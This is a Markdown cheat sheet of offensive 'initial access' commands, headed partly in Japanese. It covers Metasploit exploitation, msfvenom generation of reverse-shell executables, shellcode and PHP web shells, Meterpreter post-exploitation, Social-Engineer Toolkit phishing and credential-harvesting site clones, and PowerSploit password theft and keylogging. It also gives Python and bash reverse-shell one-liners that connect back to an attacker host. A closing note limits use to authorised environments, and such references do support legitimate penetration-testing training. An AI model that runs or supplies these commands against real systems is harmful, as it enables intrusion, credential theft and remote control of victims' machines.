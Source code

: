 # Initial Access Tools Command Reference

## Metasploit Framework

### 基本操作
```bash
# Metasploitの起動
msfconsole

# データベース初期化
msfdb init

# ワークスペース管理
workspace -a <name>
workspace -d <name>
workspace -l
```

### 情報収集
```bash
# モジュール検索
search <keyword>
search type:exploit platform:windows

# モジュール情報表示
info <module_path>

# ターゲットリスト表示
show targets
```

### エクスプロイト実行
```bash
# モジュール選択
use <module_path>

# オプション設定
show options
set RHOSTS <target>
set LHOST <attacker>
set LPORT <port>

# エクスプロイト実行
exploit
run
```

### ペイロード生成
```bash
# 実行ファイル生成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker> LPORT=<port> -f exe > payload.exe

# シェルコード生成
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker> LPORT=<port> -f c

# Webペイロード
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker> LPORT=<port> -f raw > shell.php
```

### Post Exploitation
```bash
# システム情報収集
sysinfo
getuid
getprivs

# ファイル操作
download <remote_file> <local_path>
upload <local_file> <remote_path>
cat <file>

# シェル操作
shell
background
sessions -l
sessions -i <id>
```

## Social Engineering Toolkit (SET)

### 基本操作
```bash
# SET起動
setoolkit

# メニュー選択
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
```

### フィッシングメール
```bash
# メールテンプレート作成
1) Spear-Phishing Attack Vectors
2) Create a FileFormat Payload
3) Social-Engineering Template
```

### 偽装サイト
```bash
# クローンサイト作成
1) Website Attack Vectors
2) Credential Harvester Attack Method
3) Site Cloner
```

## PowerSploit

### PowerShell攻撃
```powershell
# モジュールインポート
Import-Module PowerSploit

# 権限昇格チェック
Get-GPPPassword
Get-UnattendedInstallFile

# キーロガー
Get-Keystrokes

# PowerShellバイパス
PowerShell.exe -NoP -NonI -W Hidden -Exec Bypass
```

## HackTheBox Tools

### 基本的なリバースシェル
```bash
# Netcat リスナー
nc -lvnp <port>

# Python リバースシェル
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Bash リバースシェル
bash -i >& /dev/tcp/<attacker>/<port> 0>&1
```

## 注意事項
- これらのツールは許可された環境でのみ使用してください
- マルウェアの生成と使用は違法となる可能性があります
- 実環境での使用は必ず許可を得てから行ってください
- アンチウイルスソフトに検知される可能性があります 